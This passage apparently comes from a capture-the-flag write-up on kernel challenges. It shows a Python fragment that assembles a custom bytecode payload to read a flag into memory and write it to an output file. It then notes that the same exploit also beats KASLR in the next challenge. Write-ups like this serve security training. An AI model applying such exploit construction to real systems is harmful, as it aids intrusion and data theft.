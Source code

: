 ```python
    # Store out filename in mem[0x80]
    yancode += store_string(addr=out_file_addr, string=out_file_path)
    yancode += open_file(file_addr=out_file_addr, flags=2)
    yancode += write_from_memory(fd=Regs.a, offset=flag_content_addr, count=max_size)
    
    yancode += b'\x00' * (MAX_YANCODE_SIZE - len(yancode))
    return yancode
```

## Challenge 8

Same as 7, but this time KASLR is on. Because my previous exploit doesn't relies on kernel addresses at all, the same solution applies. \
I assume the intended solution for these challenge was to find a kernel vuln, overwrite the `pos `of the file. Kernel leakage for this challenge can be done as I've initially described within challenge 5. 


[linux-kernel-labs-vma]: https://linux-kernel-labs.github.io/refs/pull/222/merge/labs/memory_mapping.html
[litux-vma]: https://litux.nl/mirror/kerneldevelopment/0672327201/ch14lev1sec2.html
